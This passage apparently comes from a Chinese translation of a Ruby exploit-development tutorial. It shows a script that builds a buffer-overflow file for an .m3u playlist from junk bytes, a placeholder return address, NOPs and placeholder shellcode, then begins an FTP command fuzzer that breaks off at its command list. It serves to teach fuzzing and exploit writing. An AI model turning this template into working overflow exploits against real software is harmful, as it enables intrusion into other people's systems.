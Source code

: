 ```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}" 
```

执行它

```
ruby m3u_exploit.rb song1.m3u 
```

* * *

# 模糊器

# 模糊器

模糊器通常用于一般或精确的应用程序功能。在这部分中，我们将展示如何使用ruby模糊最常见的服务。记住，模糊是一种**打击事物的艺术**，它不仅仅是关于工具。

**模糊器类型**

+   突变

+   元数据/文件格式

## 突变

### FTP模糊器

模糊FTP服务的一般思路是测试所有命令缓冲区大小。然而，并非所有情况都是一样的，例如，测试用户名和密码缓冲区。此外，相同的技术可以应用于许多服务，甚至定制服务。

```
#!/bin/ruby
# KING SABRI | @KINGSABRI
# Simple FTP COMMNDS Fuzzer
#
require 'socket'

class String
  def red; colorize(self, "\e[31m"); end
  def green; colorize(self, "\e[32m"); end
  def colorize(text, color_code);  "#{color_code}#{text}\e[0m" end
end

mark_Red   = "[+]".red
mark_Green = "[+]".green

host = ARGV[0] || "127.0.0.1"
port = ARGV[1] || 21

# List of FTP protocol commands
cmds = ["MKD","ACCL","TOP","CWD","STOR","STAT","LIST","RETR","NLST","LS","DELE","RSET","NOOP","UIDL","USER","APPE"]

```